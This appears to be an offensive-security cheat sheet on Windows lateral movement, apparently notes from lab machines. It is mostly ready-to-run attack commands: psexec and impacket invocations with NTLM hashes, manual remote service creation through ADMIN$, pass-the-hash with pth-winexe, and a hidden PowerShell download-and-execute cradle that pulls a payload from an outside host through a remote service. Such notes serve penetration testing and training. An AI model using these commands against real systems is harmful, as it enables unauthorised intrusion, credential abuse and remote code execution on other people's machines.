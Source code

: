   ```
  ```
  - Can be detected by using `net session`
  - Can terminate all session with `net use /delete *`
  - Some commands, such as `net view` use the login user-name. .: use `runas`
  ```
  runas /netonly /user:user@domainname "cmd.exe"
  net view \\machine-name /all
  ```
  - Verify it uses Kerberos by `klist`
- Get shells
- psexec
  - PsExec is a light-weight telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software
  - `auxiliary/admin/smb/psexec`
  - `auxiliary/admin/smb/psexec_comman`
  - psexec.py - <https://github.com/CoreSecurity/impacket>
    ```
    /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 -target-ip 10.10.10.10
    ```
    ```
    \\machinename -u user@domainname -p password cmd.exe
    ```
  - `-s` to get `SYSTEM` shell
  - Use runas to use Kerberos TGT and avoid giving password:
    ```
    runas /netonly /user:user@domainname PsExec.exe \\machinename -u user@domainname  cmd.exe
    ```
  - Manual Operation
    - Copy a binary to the ADMIN$ share over SMB (`C:\Windows\PSEXECSVC.exe.`)
        - `copy example.exe \\machine\ADMIN$`
    - Create a service on the remote matching pointing to the binary
        - `sc \\machine create serviceName binPath="c:\Windows\example.exe"`
    - Remotely start the service
        - `sc \\machine start serviceName`
    - When exited, stop the service and delete the binary
        - `del \\machine\ADMIN$\example.exe`
- smbexec.pp
  - Stealthier (does not drop a binary)
  - Creates a service
  - Service File Name contains a command string to execute (%COMSPEC% points to the absolute path of cmd.exe)
  - Echos the command to be executed to a bat file, redirects the stdout and stderr to a Temp file, then executes the bat file and deletes it.
  - Creates a log entry for each command.
  ```
  Use Metasploit web_delivery to send script

  sc \\machine create serviceName binPath="powershell.exe -nop -w hidden -c $k=new-object net.webclient;$k.proxy=[Net.WebRequest]::GetSystemWebProxy();$k.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $k.downloadstring('http://10.9.122.8:8080/AZPLhG9txdFhS9n');"
  sc \\machine start serviceName
  ```
- Winexe
  - <https://sourceforge.net/projects/winexe/>
    ```
    winexe -U Administrator //10.10.10.82 cmd.exe
    ```
- Pass the hash
    ```
    pth-winexe
    -U jeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
    //10.10.10.63 cmd